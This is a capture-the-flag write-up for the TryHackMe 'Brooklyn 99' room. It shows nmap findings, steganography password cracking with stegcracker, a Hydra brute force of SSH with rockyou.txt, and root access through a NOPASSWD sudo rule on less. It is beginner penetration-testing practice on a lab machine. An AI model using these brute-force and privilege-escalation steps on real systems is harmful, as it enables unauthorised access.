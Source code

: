 <a href="https://tryhackme.com/room/brooklynninenine"><img src="../images/THMlogo.png" alt="tryhackme" width="200"/></a>

# Brooklyn 99

## nmap
```
Port 21 ftp - anonymous allowed
Port 22 ssh
Port 80 http
```
## gobuster
Gobuster did not bring anything to the table, so lets look to the actual front facing website.

## webside
If we view source we can see a comment:
```
<!-- Have you ever heard of steganography? -->
```
So lets download that image and see what it gives us.
```
wget http://10.10.230.236/brooklyn99.jpg
--2020-07-26 11:28:24--  http://10.10.230.236/brooklyn99.jpg
Connecting to 10.10.230.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69685 (68K) [image/jpeg]
Saving to: ‘brooklyn99.jpg’

brooklyn99.jpg               100%[============================================>]  68.05K  --.-KB/s    in 0.09s   

2020-07-26 11:28:24 (762 KB/s) - ‘brooklyn99.jpg’ saved [69685/69685]
```
## steganography

First things first lets just check the .jpg with file and strings in case anything pops out. This shows nothing but when we use steghide, the file comes back as corrupted. Possibly as the data that was hidden is compressed first or requires an actual password. Lets try stegcracker and rockyou.txt to see if we find anything:
```
stegcracker brooklyn99.jpg 
StegCracker 2.0.8 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: <insertpasswordhere>
Tried 20651 passwords
Your file has been written to: brooklyn99.jpg.out
```
Lets now try steghide with the password that we have just cracked.

This produces a note.txt which then provides us with Capt Holt's password

Lets carry on and see what we can get. We can always use this information later.
## ftp

Lets see what we can get on the FTP server. As it is anonymous, I just use the browser to see what files are available. In this case we have a note from Amy to Jake:
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
From this we can make an assumption that we have two usernames jake and amy, both characters from the series. Also we are assured that Jake's password is a weak one.
Lets try and see what Hydra GUI can do with this for ftp first, using jake as the username and rockyou.txt as the list and then for ssh:

Nothing on the ftp side but success on the ssh:
```
hydra -s 22 -l jake -P /usr/share/wordlists/rockyou.txt -t 16 10.10.230.236
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 11:53:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.230.236:22/
[22][ssh] host: 10.10.230.236   login: jake   password: <insertpasswordhere>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 11:54:19
<finished>
```
## ssh
Now we can logon as Jake.
```
ssh jake@10.10.230.236 
jake@10.10.230.236's pasword:
```
Let's look around. Nothing in Jake's home directory. We can however see two other user directories - Amy and Holt.

**Amy**
I can see that again her home directory is empty, but she does have an .ssh folder. We could look at this later.

**Holt**
This time we can see two files.
1. nano.save 
2. user.txt

It we read this we get the answer to Task 1 #1

Now we will check out Jake's sudo -l permissions.

```
sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```
This looks interesting. Jake can run /usr/bin/less as root with no password. Lets try and read the root.txt assuming it is where it should be.

```
- Creator : Fsociety2006 --

Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <insertflaghere>

Enjoy!!
```
The comments in the room suggest a few ways to get root, so I will be coming back to try other ways!!
Great room for begineers like myself as well as being a great TV programme!!
